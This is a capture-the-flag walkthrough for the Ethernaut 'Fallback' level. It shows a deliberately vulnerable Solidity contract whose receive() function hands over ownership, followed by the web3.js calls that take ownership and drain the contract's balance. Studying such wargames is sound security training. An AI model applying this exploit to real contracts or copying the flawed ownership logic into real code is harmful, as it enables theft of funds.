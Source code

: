 # 2. Fallback

Ethernaut2: [Fallback](https://ethernaut.openzeppelin.com/level/0x2a24869323C0B13Dff24E196Ba072dC790D52479)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

### Goal of this level

* claim ownership of the contract
* reduce its balance to 0

<details>

<summary>Key  for this problem  🔑</summary>

using `recieve` function

</details>

## You must know before

* Sending transactions using `web3.js` **** \
  ****-> see [here](https://stackoverflow.com/questions/52740950/how-to-send-wei-eth-to-contract-address-using-truffle-javascript-test)
* Understanding concept of `fallback()` and `receive()` function \
  \-> see [here](https://www.youtube.com/watch?v=CMVC6Tp9gq4)

## Walkthrough

{% hint style="info" %}
Don't forget!

Not only do we need to claim **ownership** of the contract, but also we have to **reduce** the **balance** of the contract to `0`!\
\
We first will modify the value of`owner` variable, and then we will **drain** the contract.
{% endhint %}

### 1. Claming Ownership

We first have to modify the value of `owner` variable.

Let's see which functions modify `owner` variable.

```solidity
function contribute() public payable {
  require(msg.value < 0.001 ether);
  contributions[msg.sender] += msg.value;
  if(contributions[msg.sender] > contributions[owner]) {
    owner = msg.sender; // here
}
```

```solidity
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender; // and here
}
```

#### 1) `contribute()` function

Let's check out `contribute` function first.

To modify the value of `owner` variable, we must contribute more than the original owner did.

Let's check how much he contributed!

```javascript
const owner = await contract.owner();

await contract.contributions(owner).then((v) => v.toString());

// '1000000000000000000000'
```

Wow, `1000 ETH`!

It seems even if we have more than `1000 eth`, we won't be  able to pass the require statement.

Let's check out `receive` function for next.

#### &#x20;

#### 2) `receive()` function

`receive()` function is checking if msg.sender sent over `0 wei`  and if he contributed more then `0 wei`.

Seems we can use both to solve the problem!

#### &#x20;

#### 3) Let's claim the ownership!

```javascript
// You can send any value between 0 and 0.001 ether
await contract.contribute({ value: 3 });
```

Here we can make our contribution to be bigger than `0`.

Now, let's modify `owner` variable.

```javascript
// Here, since there's no require statement,
// you can send any value bigger than 0.
await contract.sendTransaction({ value: 3 });
```

Because `receive()` function only checks if `msg.value` is bigger than 0 wei and if `msg.sender` contributed more than 0 wei, we can easily satisfy both conditions.

Let's check if it works 😎

```javascript
await contract.owner();
```

### &#x20;

### 2. Reducing balance of the contract to 0

```solidity
function withdraw() public onlyOwner {
  payable(owner).transfer(address(this).balance);
}
```

Since now we have **ownership** of the contract, we can **withdraw** all the balance of the contract.

```javascript
await contract.withdraw();
```

Let's check if we successfully drained the contract.

```javascript
await web3.eth.getBalance(contract.address); // 0
```

Done! 😎

